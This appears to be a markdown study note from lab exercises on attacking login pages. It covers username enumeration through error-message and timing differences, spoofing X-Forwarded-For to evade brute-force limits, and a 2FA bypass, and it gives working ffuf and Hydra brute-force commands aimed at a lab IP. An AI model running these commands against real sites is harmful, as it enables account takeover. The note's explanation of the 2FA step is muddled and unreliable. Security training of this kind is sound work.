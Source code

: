 ```yaml
---

---
```


## Username enumeration via different responses

Website error messages are great resources for collating this information to build our list of valid usernames.

How Enumerate UserNames From Login Page

1. Create User form create a new 

2. then try to login with userName can't be any one sign up with it and uncorrect password Like `UserName`:`ASdqweasds`|`Password`:`12346745` 

3. copy the error Message and save it in text file 

4. and Login With The User Account that You Create It but with Uncorrect Password

5. copy the error Message and save it in text file

6. compare between them if there are any different between them then this user is already existing 
   
   EX:
   
   first Message       `user Name or password was incorrect.`
   
   second Message `user Name or password was incorrect`
   
   the different between two error Message is the dot `.`
   
   you Can Brute Force It With `Burp Intruder` or with `ffuf`
   
   ```bash
   ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.127.105/customers/signup -mr "username already exists"ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.127.105/customers/signup -mr "username already exists"
   ```

### <mark>HINT</mark>

Identify that the `X-Forwarded-For` header is supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection

## Username enumeration via response timing

 Notice that one of the response times was significantly longer than the others. Repeat this request a few times to make sure it consistently takes longer, then make a note of this username. 

## Vulnerabilities in multi-factor authentication (2FA)

- Log in to your own account. This is the first step to establish a baseline for what the normal login process looks like.

- Your 2FA verification code will be sent to you by email. Click the Email client button to access your emails. This is simulating the process of receiving a 2-factor authentication code via email, which is a common method used by many online platforms.

- Go to your account page and make a note of the URL. This is to help participants understand how the URL of the account page is structured, which will be important for the next step.
  
  EX: `https://testing.test.com/my-account?id=Hawary`

- Log out of your account.

- Log in using the victim's credentials. This is the key step where participants attempt to gain unauthorized access to another user's account by using stolen credentials (ex: username:password).

- When prompted for the verification code, manually change the URL to navigate to /my-account. This is where the 2FA phishing technique comes into play. By changing the URL to a different page in the account system (in this case, the "my-account" page), the system may prompt the user to enter their 2FA code again. If the attacker is able to intercept this code (e.g. by using a fake login page or by social engineering the victim), they can use it to gain access to the account.

### Brute Force

Using Hydra

```bash
hydra 10.10.127.105 http-form-post "/customers/login:username=^USER^&password=^PASS^:Invalid Username/Password Combination" -L Names.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -t 10 -w 30
```

Using ffuf

```bash
ffuf -w valid_usernames.txt:W1,password.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.127.105/customers/login -fc 200
```
